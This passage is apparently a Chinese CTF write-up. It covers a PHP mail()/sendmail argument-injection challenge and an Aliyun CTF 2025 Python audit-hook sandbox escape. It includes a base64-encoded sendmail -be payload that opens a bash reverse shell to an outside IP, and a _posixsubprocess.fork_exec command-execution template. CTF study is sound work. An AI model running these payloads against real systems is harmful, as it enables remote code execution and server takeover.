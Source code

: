 题目只提供了一个后端接口，是发送name,email,subject,message传给php的mail()函数，搜索互联网发现php的mail()函数一般会把发送者作为-f参数拼接进执行的命令中，也就是我们可控的email参数可以注入sendmail命令的参数。

2、漏洞利用

接下来要知道sendmail有哪些参数可以利用。首先查到 `-OQueueDirectory=/tmp/  -X/var/www/shell.php`可以写入任意文件，通过subject等字段可以控制文件的内容，尝试写webshell、crontab，没用。考虑到这道题所有人共用一个题目环境，可能运行sendmail命令的用户没用任何写权限。

所以需要找到sendmail的能够直接执行命令的参数。最终发现-be参数直接就可以执行命令，语法需要参考官方文档。直接反弹shell：

```none
email=aaa( -be ${run,preexpand{${base64d:L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTI0LjcwLjEzMi4yMDkvNjY2NyAwPiYxIgo==}}} )@xxx.com
```


### （Vqs147）阿里云CTF 2025 ezoj

python沙箱逃逸：

```python
import sys
import math
import collections
import queue
import heapq
import bisect

def audit_checker(event,args):
    if not event in ["import","time.sleep","builtins.input","builtins.input/result"]:
        raise RuntimeError

sys.addaudithook(audit_checker)
```

可以在这段代码后面插入任何代码，然后运行python脚本，audithook用白名单方式限制事件执行。

根据白名单，可以用import导入模块，但导入外部模块需要用到compile和exec会触发audithook，因此只能导入内部模块。内部模块_posixsubprocess的函数fork_exec可以命令执行，代码模板：

```python
import os
import _posixsubprocess
cmd = b''
_posixsubprocess.fork_exec([b"/bin/sh",  b"-c" , cmd], [b"/bin/sh"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(os.pipe()), False, False,False, None, None, None, -1, None, False)
```

题目环境不出网。此时第一种做法是把完整的执行的命令放在cmd参数中，时间盲注得到flag。

第二种做法是，注意到回显包含错误码：

```python
except OJRuntimeError as e:
    return {"status": "RE", "message": f"Runtime Error: ret={e.args[0]}"}
```

先用sys.version_info获取python版本，然后通过错误码一位位带出flag。现在需要想办法获取_posixsubprocess.fork_exec执行命令后的结果。这个函数创建一个子进程执行命令，输出是子进程的stdout。但是fork_exec的一个参数c2pwrite用于重定向子进程的输出，先用std_pipe = os.pipe()创建在当前进程创建一个管道，然后把c2pwrite设置成std_pipe\[1\]，就可以通过std_pipe\[0\]读取到执行命令的结果。
